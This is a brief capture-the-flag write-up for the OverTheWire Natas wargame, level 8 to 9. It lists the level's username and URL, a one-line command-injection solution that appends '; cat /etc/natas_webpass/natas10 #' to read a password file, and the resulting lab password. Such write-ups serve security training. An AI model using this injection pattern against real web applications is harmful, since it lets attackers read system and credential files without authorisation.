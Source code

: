 # Natas Level 8 → Level 9
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

## Solution
; cat /etc/natas_webpass/natas10 #

## Password
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE